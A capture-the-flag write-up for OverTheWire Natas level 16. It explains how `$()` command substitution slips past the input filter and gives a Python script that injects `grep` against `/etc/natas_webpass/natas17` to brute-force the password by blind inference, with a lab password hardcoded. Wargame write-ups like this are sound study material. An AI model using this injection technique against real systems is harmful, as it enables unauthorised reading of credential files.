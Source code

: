 Try submitting `<letter> /etc/natas_webpass/natas16` like the trick used in level 10, but it returns nothing. Maybe it doesn't work in this level.

There's an obvious missing by the filter: `$()`.

![image](/assets/images/level-16-2.png)

`$()` contains a command, this command is executed in a subshell. If it returns a value or something like that, the output is placed in the original command.

→ I can do something like:
`$(<command>)word` → if the command returns an output, it is attached with the word → this "new word" will not match with any word in the dictionary → returns nothing.

On the other hand, if the command does not return an output, the word is still the word, after searching, some words have appeared.

→ I can brute-force each letter of the password, the value returned is 'true' or 'false'.

If this value is true, it will change the word → there's nothing after searching. If it is false, there're results after searching.

Let's write a short Python script to do this task.

```python
import requests
import string

username = "natas16"
password = "hPkjKYviLQctEW33QmuXL6eDVfMW4sGo"

url = f"http://{username}.natas.labs.overthewire.org"

CHARSET = string.ascii_letters + string.digits
PASSWORD_LENGTH = 32

found_password = ""

for i in range(PASSWORD_LENGTH):
    for char in CHARSET:
        payload = f'$(grep ^{found_password}{char} /etc/natas_webpass/natas17)penetration'
        
        response = requests.get(url, auth=(username, password), params={"needle": payload})
        
        if ('penetration' not in response.text):
            found_password += char
            print(f"[+] Found character {i+1}: {char} → {found_password}")
            break
        
print(found_password)
```
